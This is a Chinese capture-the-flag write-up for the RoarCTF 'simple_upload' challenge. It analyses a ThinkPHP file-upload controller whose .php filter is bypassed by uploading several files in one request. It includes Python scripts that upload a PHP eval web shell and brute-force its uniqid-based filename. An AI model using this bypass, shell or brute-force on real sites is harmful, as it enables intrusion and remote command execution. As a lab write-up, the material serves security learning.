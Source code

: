 RoarCTF-simple_upload
==========

* tip：该题目在BUUCTF的题库里有环境复现：https://buuoj.cn

题目描述
-----

打开题目链接之后，看到如下代码<br>
```php
 <?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```
可以发现，该站是`ThinkPHP`写的一个文件上传网站。<br>

题目分析
-------

* 1、分析代码可知，该站可以通过`POST`方法实现上传文件功能，但是从第14行代码发现php后缀的文件被禁止上传，因此我们需要想办法绕过限制，上传`php小马`。<br><br>
* 2、该脚本通过`allowExts`方法设置上传类型，但是查阅资料得知这种使用方法是不对的，并不能限制上传的文件类型。<br><br>
* 3、upload()函数不传参时为多文件上传，整个`$_FILES`数组的文件都会上传保存，可以利用该属性通过一次访问上传多个文件。<br><br>
结合以上分析得知的内容可知，可以利用`$_FILES`数组上传多个文件来绕过对php的过滤。<br><br>

解题过程
-------

### 1、测试上传功能

首先编写python脚本向网站POST一个非php的文件，这里上传了一个`txt`文件，测试能否正常上传文件，下面是上传测试代码段：<br>
```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello')}
r = requests.post(path, files=files)
print(r.text)
```
回显内容如下:<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db1841fb439d.txt","success":1}
```
能够成功上传文件。<br>
### 2、测试上传php文件：

```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
```
回显内容如下：<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db18420027a3.txt","success":1}
{"url":"\/Public\/Uploads\/","success":1}
```
由回显可知，我们成功上传了php文件,但是并没有回显php的文件名<br>
* 其实在比赛做赛题的时候发现，直接上传php文件也是可以成功的，只不过也不会回显文件名。<br><br>
通过多次上传发现规律：新文件名是以`微秒`为单位转`十六进制`的字符串（后来在WP中了解到ThinkPHP中，文件名是通过`uniqid`函数生成的，`uniqid`函数是基于以微秒计的当前时间计算的）<br><br>
因此找到php的文件名，理论上就可以成功连接到我们上传的小马，而方法只有一个，那就是`爆破`。<br>

### 3、爆破php文件名

爆破代码如下：<br>
```python
import requests

url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print (t1)

s = "1234567890abcdef"
for i in s:
    for j in s:
        for k in s:
            path = url + "/Public/Uploads/2019-10-24/" + t1[:-3] + "%s%s%s.php" % (i, j, k)
            r = requests.get(path, timeout=1)
            print(path)
            if r.status_code != 404:
                print(path)
                # print(r.text)
                break
```
由于我们是利用`$_FILES`数组的属性实现一次访问，上传两个文件，因此中间相隔的时间较短，利用以上单线程的爆破即可拿到php的文件名，然后常规操作连接小马拿flag。<br><br>
这里还有另一种方法是利用BP进行爆破，只需爆破文件名的后三个字符即可，其实原理是一样的，只是工具不同而已。<br><br>
  ![](./images/BP.PNG)
 <br>
但是在BUUCTF的站上使用BP爆破时会回显`429 Too Many Requests (太多请求)`,同样如果用自己的多线程代码去爆破也会遇到这个问题，是网站为了限制客户端的请求数量的配置，没办法，只能用单线程。<br>

思考总结
-------

在比赛的时候，由于不了解代码中一次访问可以上传多个文件的漏洞，便采用了上传三次文件的方法（第一次上传txt，第二次传php小马，第三次再传txt，以此得到命名范围），这就导致第一次和第三次拿到的文件名范围比较广，爆破困难，当时自己写了个蹩脚的多线程，最终也没能成功爆破出文件名...<br>
赛后看了几个WP关键步骤还是在于爆破文件名，我采用的这种方法也有人成功拿到了flag...不过正解应该还是利用漏洞一次上传多个文件来爆破吧。
